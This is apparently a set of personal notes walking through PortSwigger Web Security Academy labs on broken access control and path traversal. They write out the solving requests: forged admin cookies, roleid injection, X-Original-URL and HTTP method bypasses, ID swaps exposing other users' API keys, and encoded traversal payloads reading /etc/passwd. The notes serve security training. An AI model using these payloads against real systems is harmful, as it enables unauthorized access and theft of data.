# 🔬 Vulnerability Labs

---

## [Access control vulnerabilities](https://portswigger.net/web-security/all-labs#access-control-vulnerabilities)

> 🌐 Resources 🔗
>
> - 📽️ [Broken Access Control (Long Version) - Rana Khalil](https://www.youtube.com/playlist?list=PLuyTk2_mYISId4_l9YET7Gv29cHcNguq-)
> - [WSTG-ATHZ-02 - Testing for Bypassing Authorization Schema](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/02-Testing_for_Bypassing_Authorization_Schema)

### [Unprotected admin functionality](https://portswigger.net/web-security/access-control/lab-unprotected-admin-functionality)

> Find the admin panel and delete the user `carlos`.
>

```bash
GET /robots.txt

# Response
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 45

User-agent: *
Disallow: /administrator-panel
```



```bash
GET /administrator-panel
```



```bash
GET /administrator-panel/delete?username=carlos
# User deleted
```





### [Unprotected admin functionality with unpredictable URL](https://portswigger.net/web-security/access-control/lab-unprotected-admin-functionality-with-unpredictable-url)

> Find the unpredictable admin panel and delete user `carlos`.
>

```bash
GET /login
```



- Admin panel found in the code of the `/` or `/login` page response for example

```bash
<script>
var isAdmin = false;
if (isAdmin) {
   var topLinksTag = document.getElementsByClassName("top-links")[0];
   var adminPanelTag = document.createElement('a');
   adminPanelTag.setAttribute('href', '/admin-ge6wcp');
   adminPanelTag.innerText = 'Admin panel';
   topLinksTag.append(adminPanelTag);
   var pTag = document.createElement('p');
   pTag.innerText = '|';
   topLinksTag.appendChild(pTag);
}
</script>
```

```bash
GET /admin-ge6wcp
```



```bash
GET /admin-ge6wcp/delete?username=carlos
# User deleted
```





### [User role controlled by request parameter](https://portswigger.net/web-security/access-control/lab-user-role-controlled-by-request-parameter)

> Access the `/admin` panel and use it to delete user `carlos`.
>
> Admin panel use a forgeable cookie to identify administrators.
>
> User's creds: `wiener`:`peter`

```bash
POST /login
# The response sets the cookie
```



```bash
GET /admin
```



- Send this request to the repeater and forge the cookie with `Admin=true`



- Delete user `carlos` once the admin panel login is bypassed.
- Burp Proxy interception (or browser Dev Tools) can be used too, while logging in, to set the Cookie to `Admin=true`, and to access the Admin panel from `/my-account` .

```bash
# Request
GET /admin/delete?username=carlos HTTP/2
Host: 0a060030038bec7c8214d8b600eb00c1.web-security-academy.net
Cookie: Admin=true; session=dxgdmGbBWv76i4PMyyDoYYW666smj1er
...
```



### [User role can be modified in user profile](https://portswigger.net/web-security/access-control/lab-user-role-can-be-modified-in-user-profile)

> App's `/admin` panel is accessible only to users with `roleid` = 2.
>
> Access the `/admin` panel and use it to delete user `carlos`.

```bash
POST /login HTTP/2
...
username=wiener&password=peter
```

- Once logged in, update the email

```bash
POST /my-account/change-email
```



- Send this POST request to the repeater and add `"roleid:2"` into the JSON body

```bash
POST /my-account/change-email HTTP/2
Host: 0a2200c20471b32f842c9ada00f700c3.web-security-academy.net
...
{"email":"lab@example.com",
 "roleid": 2
}
```



- Browse to `/admin` and delete user



### [URL-based access control can be circumvented](https://portswigger.net/web-security/access-control/lab-url-based-access-control-can-be-circumvented)

> External access to `/admin` panel is blocked at front-end. Back-end supports `X-Original-URL` header.
>
> Access the `/admin` panel and use it to delete user `carlos`.

```bash
GET /admin
```



- Send a Request to `/` with an `X-Original-URL` header pointing top a non-existing resource
  - With re response `404 Not Found` it means the app supports the special request headers

```bash
GET / HTTP/2
X-Original-Url: /invalid
...
```



- Send an allowed URL as main and the real target in the `X-Original-URL`

```bash
GET / HTTP/2
X-Original-Url: /admin
...
```



- Delete user using the `X-Original-Url` header

```bash
GET /?username=carlos HTTP/2
X-Original-Url: /admin/delete
...
```





### [Method-based access control can be circumvented](https://portswigger.net/web-security/access-control/lab-method-based-access-control-can-be-circumvented)

> App's access control is based on the HTTP method of requests.
>
> Admin creds: `administrator`:`admin`.
>
> Login with `wiener`:`peter` credentials and exploit the access control to promote the user to an administrator.

- Login as `administrator`, promote `carlos` and send the request to the repeater



- Login with `wiener` in an incognito windows and get the session cookie. Input the session cookie in the existing repeater request -> `Unauthorized`



- Change the method to `POSTX` -> `Missing parameter 'username'`



- Right click on the request and convert it to `GET` with `Change request method`
  - Set the username to `wiener` and send it
  - `GET` method is allowed

```bash
GET /admin-roles?username=wiener&action=upgrade HTTP/2
```



- `wiener` user has access to the admin panel now

### [User ID controlled by request parameter](https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter)

> Login with `wiener`:`peter` credentials and exploit the horizontal privesc vulnerability on the account page to get `carlos`'s API key.

- Login as `wiener` and send the request to the repeater
- Change the `id` to `id=carlos` and send the GET request to get the Carlos's API key

```bash
GET /my-account?id=carlos HTTP/2
```



- Click the `Submit solution` button and paste the API key to solve the lab - `eXXoHWSpwaZpxBAXr7MbVt9GMoEuCpy9`



### [User ID controlled by request parameter, with unpredictable user IDs](https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter-with-unpredictable-user-ids)

> The app identifies users with GUIDs.
>
> Login with `wiener`:`peter` credentials and exploit the horizontal privesc vulnerability on the account page to get `carlos`'s GUID and API key.

- Find a `carlos` blog post and get its user ID. `/blogs` leaks the account's `userID`



```bash
userId=fe62ab1c-3eb7-47b8-862b-1c1c47a5490c
```

- Login as `wiener`, go to the account page and send the request to the repeater
- Change the `id` to `id=fe62ab1c-3eb7-47b8-862b-1c1c47a5490c` and send the GET request to get the Carlos's API key

```bash
GET /my-account?id=fe62ab1c-3eb7-47b8-862b-1c1c47a5490c HTTP/2
```



- Click the `Submit solution` button and paste the API key to solve the lab - `p3UtBNlmwKtAnEf0PKgBcW9sPQNJcMLq`

### [User ID controlled by request parameter with data leakage in redirect](https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter-with-data-leakage-in-redirect)

> The app leaks sensitive information in the body of a redirect response
>
> Login with `wiener`:`peter` credentials and exploit the access control vulnerability to get `carlos`'s API key.

- Login as `wiener`, access the account page via browser and change the `id` to `id=carlos` and send the GET request to get the Carlos's API key

```bash
GET /my-account?id=carlos HTTP/2

# Response
HTTP/2 302 Found
```

- This request is redirected to the login page. Check the redirect body content in BurpSuite and find the `carlos` API key



- Click the `Submit solution` button and paste the API key to solve the lab - `ah9Nwj1bvuWv5uvWPK86EBHZCnghqRHe`

### [User ID controlled by request parameter with password disclosure](https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter-with-password-disclosure)

> The user account page leaks password in a masked input.
>
> Login with `wiener`:`peter` credentials, retrieve `administrator` password and delete `carlos` user.

- Login as `wiener` and access the account page
- Change the `id` to `id=administrator` and check the response containing the administrator's password


- Login as `administrator:dta5qwrsg998j416zqh0` and delete `carlos`




---

## [Path traversal](https://portswigger.net/web-security/all-labs#path-traversal)

> 🌐 Resources 🔗
>
> - 📽️ [What is Directory Traversal? - Intigriti](https://www.youtube.com/watch?v=17KYOIf5ZbU)
> - 📽️ [Directory Traversal attacks are scary easy - TCM](https://www.youtube.com/watch?v=99yJtmmtrJU)
> - 📽️ [Directory Traversal Playlist- z3nsh3ll](https://www.youtube.com/playlist?list=PLWvfB8dRFqbbO2wRawnn6u8JlfttA74wE)
> - 📽️ [Directory Traversal (Long Version) - Rana Khalil](https://www.youtube.com/playlist?list=PLuyTk2_mYISL2DdD_m1ELEjpiPKxV98MO)
> - [WSTG-ATHZ-01 - Testing Directory Traversal File Include](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/01-Testing_Directory_Traversal_File_Include)

### [Simple case](https://portswigger.net/web-security/file-path-traversal/lab-simple)

Open `BurpSuite` - Turn off the intercept - Open its internal Browser and open the lab link - Check `HTTP history` for intercepted requests - Check `Images` in the Filter settings

- Find a fetched product image Request
  - right click on it and `Send to Repeater`, or select it and press `CTRL+R`
- Change the Request

```bash
# From this
GET /image?filename=5.jpg

# To this
GET /image?filename=../../../etc/passwd
```



### [Traversal sequences blocked with absolute path bypass](https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass)

The app blocks path traversal sequences but treats the filename as relative to a default working directory.

```bash
GET /image?filename=21.jpg

GET /image?filename=../../../etc/passwd # 400 Bad Request

# Try with absolute path
GET /image?filename=/etc/passwd
```



### [Traversal sequences stripped non-recursively](https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively)

The app strips path traversal sequences from the supplied filename before using it.

```bash
GET /image?filename=....//....//....//etc/passwd
```



### [Traversal sequences stripped with superfluous URL-decode](https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode)

The app blocks input containing path traversal sequences and then performs URL-decode before using it.

- With `../../../etc/passwd` it does not work
- Use BurpSuite **Decoder** to ***double URL-Encode*** the `../../../etc/passwd` string
  - `\` `/` should always be encoded

```bash
..%2f..%2f..%2fetc%2fpasswd # 400 Bad Request - URL-encoded once

# Doubl URL-Encoded
GET /image?filename=..%252f..%252f..%252fetc%252fpasswd
```



### [Validation of start of path](https://portswigger.net/web-security/file-path-traversal/lab-validate-start-of-path)

The application transmits the full file path and validates that it starts with the expected folder.

```bash
GET /image?filename=/var/www/images/../../../etc/passwd
# or (better)
GET /image?filename=%2fvar%2fwww%2fimages%2f..%2f..%2f..%2fetc%2fpasswd
```



### [Validation of file extension with null byte bypass](https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass)

The app validates the supplied filename end with expected file extension.

- Use a null byte character `\0` to represent the end of the string
  - `../../../etc/passwd\0.png` > `..%2f..%2f..%2fetc%2fpasswd%00.png`
  - the O.S. requests retrieval of the string, it assumes the string is terminated after `passwd`

```bash
GET /image?filename=../../../etc/passwd%00.png
# URL-encoded
GET /image?filename=..%2f..%2f..%2fetc%2fpasswd%00.png
```



---

